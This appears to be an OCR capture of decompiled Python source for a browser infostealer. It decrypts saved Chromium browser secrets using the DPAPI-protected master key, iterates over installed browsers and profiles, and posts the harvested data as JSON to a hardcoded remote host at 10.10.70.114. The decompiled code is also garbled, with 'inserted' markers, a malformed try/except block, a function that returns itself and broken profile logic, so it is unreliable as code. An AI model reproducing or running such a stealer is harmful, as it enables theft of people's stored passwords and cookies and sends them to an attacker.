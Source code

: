 ```py
    iv = buff[3:15]
    payload = buff[15:(-16)]
    cipher = AES.new(key, AES.MODE_GCM, iv)
    decrypted_pass = cipher.decrypt(payload)
    decrypted_pass = decrypted_pass.decode()
    return decrypted_pass

def save_results(browser_name, type_of_data, content):
    if content:
        url = 'http://10.10.70.114:443'
        data = {'browser': browser_name, 'type': type_of_data, 'content': content}
        try:
            response = requests.post(url, json=data)
            if response.status_code == 200:
                print(f'\t [*] Data sent successfully for {browser_name}/{type_of_data}')
            return None
    else:  # inserted
        return None
    except Exception as e:
        print(f'\t [-] Error sending data: {e}')
        return None

def decrypt_my_data(encrypted_file):
    with open('encrypted.bin', 'rb') as f:
        content = f.read()
    iv = '1234567891011123'
    encrypted_data = '6b4781995cf5e4e02c2625b3d1ac6389dbaf68fb5649a3c24ede19465f470412'
    key = CryptUnprotectData(content, None, None, None, 0)[1]
    key = bytes.fromhex(key)
    cipher = AES.new(key, AES.MODE_CBC, iv)
    data = cipher.decrypt(encrypted_data)
    return decrypt_my_data

def get_data(path: str, profile: str, key, type_of_data):
    db_file = f"{path}\\{profile}{type_of_data['file']}"
    if not os.path.exists(db_file):
        pass  # postinserted
    return None

def convert_chrome_time(chrome_time):
    return (datetime(1601, 1, 1) + timedelta(microseconds=chrome_time)).strftime('%d/%m/%Y %H:%M:%S')

def installed_browsers():
    available = []
    for x in browsers.keys():
        if os.path.exists(browsers[x] + '\\Local State'):
            pass  # postinserted
        else:  # inserted
            available.append(x)
    return available
if __name__ == '__main__':
    available_browsers = installed_browsers()
    for browser in available_browsers:
        browser_path = browsers[browser]
        master_key = get_master_key(browser_path)
        print(f'Getting Stored Details from {browser}')
        for data_type_name, data_type in data_queries.items():
            print(f"\t [!] Getting {data_type_name.replace('_', ' ').capitalize()}")
            notdefault = ['opera-gx']
            profile = 'Default'
            profile = '' if browser in notdefault else ''
            data = get_data(browser_path, profile, master_key, data_type)
```